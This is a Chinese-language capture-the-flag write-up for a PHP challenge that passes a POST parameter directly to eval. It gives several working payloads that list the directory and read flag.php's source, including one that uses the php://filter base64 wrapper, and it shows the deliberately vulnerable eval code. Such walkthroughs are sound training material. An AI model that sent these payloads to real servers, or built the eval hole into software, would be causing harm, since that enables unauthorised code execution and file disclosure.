 ```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}

```

分析源码

post提交参数c

eval执行





尝试system，passthru，exec，popen函数都失败







## 第一种

利用var_dump()输出

scandir()扫描目录

getcwd()获取当前目录

```
c=var_dump(scandir(getcwd()));
```

![image-20250404145032463](./assets/image-20250404145032463.png)

```
c=show_source(next(array_reverse(scandir(getcwd()))));
```

![image-20250404145119058](./assets/image-20250404145119058.png)

利用array_reverse()反转数组

利用next()指向flag.php

利用show_source()显示源码







### 其余函数做法

利用var_export()打印内容

```
c=var_export(scandir(getcwd()));
```

![image-20250404145229468](./assets/image-20250404145229468.png)

利用print_r()打印内容

```
c=print_r(scandir(getcwd()));
```

![image-20250404145341535](./assets/image-20250404145341535.png)



利用highlight_file()读取源码

```
c=highlight_file(next(array_reverse(scandir(getcwd()))));
```

![image-20250404145439090](./assets/image-20250404145439090.png)



利用print_r()结合file()读取源码

```
c=print_r(file(next(array_reverse(scandir(getcwd())))));
```

![image-20250404145631620](./assets/image-20250404145631620.png)





### 第三种

不过这里可以直接show_source()

![image-20250404145758355](./assets/image-20250404145758355.png)



由于未对字符串进行过滤，因此直接读文件就好了





### 第四种

嵌套include

```
c=include$_POST[a]?>&a=php://filter/convert.base64-encode/resource=flag.php
```

![image-20250404150055729](./assets/image-20250404150055729.png)

![image-20250404150101309](./assets/image-20250404150101309.png)

